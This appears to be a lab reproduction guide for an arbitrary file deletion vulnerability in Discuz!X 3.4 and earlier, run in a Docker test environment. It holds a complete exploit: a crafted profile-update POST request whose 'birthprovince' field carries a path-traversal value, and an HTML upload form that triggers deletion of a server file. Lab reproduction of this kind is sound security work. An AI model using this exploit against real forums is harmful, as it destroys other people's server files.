

Discuz!X ≤3.4 Arbitrary File Deletion¶
Discuz!X is a popular forum software widely used in China. A vulnerability in Discuz!X versions 3.4 and below allows attackers to delete arbitrary files on the server through the user profile modification functionality.
References:
Environment Setup¶
Execute the following command to deploy Discuz!X 3.4:
docker compose up -d
During installation, only modify the database host to db and keep other settings as default:

Vulnerability Reproduction¶
First, verify that the target file (e.g., robots.txt) exists by visiting http://your-ip/robots.txt:

After registering a user account, find your formhash value in the personal settings page:

Send the following HTTP request with your cookie and formhash:
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"
[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"
../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"
1
------WebKitFormBoundaryPFvXyxL45f34L12s--
After successful submission, the birthplace field in the user profile page will show the following state:

This indicates that our malicious data has been inserted into the database.
Next, create an upload.html file with the following code (replace [your-ip] with your Discuz domain and [form-hash] with your formhash):
<body>
<form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
<input type="file" name="birthprovince" />
<input type="submit" value="upload" />
</form>
</body>
Open this page in a browser and upload a normal image file. At this point, the malicious data should have been processed and the vulnerability exploitation is complete.
Visit http://your-ip/robots.txt again to verify that the file has been successfully deleted:
